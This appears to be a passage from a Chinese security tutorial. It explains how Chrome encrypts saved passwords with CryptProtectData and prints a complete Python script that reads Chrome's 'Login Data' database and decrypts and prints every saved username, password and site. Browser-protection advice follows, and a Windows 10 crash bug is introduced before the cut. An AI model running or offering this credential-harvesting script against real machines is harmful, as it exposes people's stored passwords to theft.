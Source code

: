 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN0rsmcT6ELT5cupaCGJbjmr4V8ic0ZSM5jZOibZSDRF7CLctWypDJ8GNAXiax5icCvGZNjeP1pADM7dw/640?wx_fmt=png)

当我们登录成功时，并且使用的是一套新的证书（也就是 xx 次登录该网站），Chrome 就会询问我们是否需要记住密码。

那么登录成功后，密码是如何被 Chrome 存储的呢？答案在 EncryptedString 函数，通过调用 EncryptString16 函数，代码如下：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN0rsmcT6ELT5cupaCGJbjmIdAf3MQsxIJz11XVOygUxibOfAvjRvv0Hic7BsRHnuYpsicVFWic2Jk9ibg/640?wx_fmt=png)

代码利用了 Widows API 函数 CryptProtectData（前面提到过）来加密。当我们拥有证书时，密码就会被回复给我们使用。在我们得到服务器权限后，证书的问题已经不用考虑了，所以接下来就可以获得这些密码。

下面通过 Python 代码实现从环境变量中读取 Login Data 文件的数据，再获取用户名和密码，并将接收的结果通过 win32crypt. CryptUnprotectData 解密密码。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN0rsmcT6ELT5cupaCGJbjmfduBfGsXibq8icAybkNf6v9Oeia1ib5XxIXYFicnzG1AGkaCmdpmM6RYASw/640?wx_fmt=png)

用 CryptUnprotectData 函数解密，与之对应的是前面提到的 CryptProtectData，理论上来说 CryptProtectData 加密的文本内容，都可以通过 CryptUnprotectData 函数来解密。对其他服务的解密方式，大家可以自行尝试。

完整的脚本代码如下所示：

```
#coding:utf8  import os, sys  import sqlite3  import win32crypt    google_path = r'Google\Chrome\User Data\Default\Login Data' db_file_path = os.path.join(os.environ['LOCALAPPDATA'],google_path)  conn = sqlite3.connect(db_file_path)  cursor = conn.cursor()  cursor.execute('select username_value, password_value, signon_realm from logins')   #接收全部返回结果  for data in cursor.fetchall():      passwd = win32crypt.CryptUnprotectData(data[1],None,None,None,0)            if passwd:          print '-------------------------'         print u'[+]用户名: ' + data[0]           print u'[+]密码: ' + passwd[1]           print u'[+]网站URL: ' + data[2]
```

5. 安全建议
-------

最后作者给出浏览器安全保护的建议：

*   电脑不用轻易借给他人使用，除非身边非常信任的人。
    
*   非私人电脑一定不能让浏览器保存密码。
    
*   非重要网站设定一些易于记住的密码，浏览器里登录时重要账户选择不要保存密码，每次登录手动输入。
    
*   离开电脑务必记得随时锁屏或者关机，登录系统一定要设定密码。
    
*   使用一个极高强度的 Windows 账号密码。必须记住，有不少工具可以解密 Windows 账号密码。如果有人获取了你的 Windows 账号密码，那他也就可以知道你在 Chrome 已保存的密码。
    
*   远离各种各样的恶意软件及钓鱼攻击。如果工具可以轻易获取你已保存的密码，那恶意软件和那些伪安全软件同样可以做到。如果非得下载软件，请到软件官方网站去下载。
    
*   把密码保存至密码管理软件中（如 KeePass），或使用可以整合到 Chrome 中的第三方工具（如 LastPass），使用主密码来管理你的那些密码。
    
*   用工具（如 TrueCrypt）完全加密整个硬盘，并且非私人电脑一定不能让浏览器保存密码。
    

二. Chrome 致 Win10 蓝屏漏洞复现
========================

接下来补充一个 2021 年初大家会遇到的 Chrome 浏览器导致 Win10 蓝屏的漏洞。

> 注意：该漏洞请勿轻易测试，需要在个人虚拟机上测试，测试前先保存好资料。本人坚决反对利用教学方法进行犯罪的行为，一切犯罪行为必将受到严惩，绿色网络需要我们共同维护，更推荐大家了解它们背后的原理，更好地进行防护。
